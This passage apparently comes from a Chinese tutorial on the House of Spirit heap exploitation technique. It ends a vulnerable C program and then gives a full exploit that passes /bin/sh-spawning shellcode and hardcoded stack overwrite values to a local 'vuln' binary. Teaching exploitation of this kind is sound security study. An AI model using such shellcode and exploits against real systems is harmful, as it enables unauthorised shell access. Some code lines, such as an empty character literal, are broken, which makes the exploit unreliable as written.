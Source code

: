 ```c
   for(i=0;i<10;i++)
        [7]stud_class[i] = 10;
   if (argc == 3)
      fvuln(argv[1], 25);
   return 0;
}
```

上述漏洞程序的栈布局：

![5](http://upload-images.jianshu.io/upload_images/118142-e87ca69f79887aed.png)

漏洞程序的行`[3]`是缓冲区溢出发生处。因此为了成功利用漏洞程序，攻击者需要提供下面的命令行参数：

```
argv[1] = Shell Code + Stack Address + Chunk size
```

利用程序：

```c
/* Program to exploit executable 'vuln' using hos technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"

/* Shellcode to spwan a shell. Size: 48 bytes - Includes Return Address overwrite */
char scode[] =
        "\xeb\x0e\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xb8\xfd\xff\xbf\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90";

int main( void )
{
        int i;
        char * p;
        char argv1[54];
        char * argv[] = { VULNERABLE, argv1, NULL };

        strcpy(argv1,scode);

        /* Overwrite ptr1 in vuln with stack address - 0xbffffdf0. Overwrite local_age in vuln with chunk size - 0x30 */
        strcpy(argv1+48,"\xf0\xfd\xff\xbf\x30"); 

        argv[53] = '';

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
